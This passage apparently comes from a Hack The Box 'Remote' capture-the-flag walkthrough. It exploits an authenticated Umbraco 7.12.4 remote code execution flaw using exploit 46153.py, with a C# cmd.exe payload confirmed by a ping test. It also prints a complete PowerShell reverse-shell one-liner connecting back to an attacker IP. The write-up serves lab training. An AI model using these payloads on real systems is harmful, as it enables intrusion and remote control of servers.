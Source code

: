 
We have logged on successfully.

As we can see from the screenshot above, **the Umbraco version is 7.12.4.** Hence, we can try the RCE exploit we found earlier.

## Attacks and Exploits

### Getting The Umbraco Exploit

This is a RCE vulnerability that requires a login which we have now.

The exploit is very well-documented, you can look through it to understand what it does. With searchsploit, you can mirror the exploit with the command below.

`searchsploit -m exploits/aspx/webapps/46153.py`

There's also a Metasploit module listed but we are doing this without Metasploit.

### Verifying The Exploit

Let's verify that the exploit is working with a simple command (like ping or id). It makes for easier troubleshooting.

So here, let's try to get Remote to ping our machine.

First, let's change the payload to start `cmd.exe` with the argument `/c ping 10.10.10.10`.

```
string cmd = "/C ping 10.10.X.X"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;\
proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }
```

We also need to replace the **username** and **password** with the credentials we've obtained.

In another terminal window, let's listen for pings using `tcpdump`. After executing the exploit, we receive pings from 10.10.10.180.

Great, the exploit is working.

```
root@kali:~/htb/remote# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
22:44:03.444458 IP 10.10.10.180 > kali: ICMP echo request, id 1, seq 1, length 40
22:44:03.445072 IP kali > 10.10.10.180: ICMP echo reply, id 1, seq 1, length 40
```

### Encoding Our Payload

From [this page](https://delta.navisec.io/reverse-shell-reference/#powershell), we find a nice reverse shell code for powershell.

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.X.X",8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
The payload code (as it is) will break the XSLT file. So let's base64 encode it.
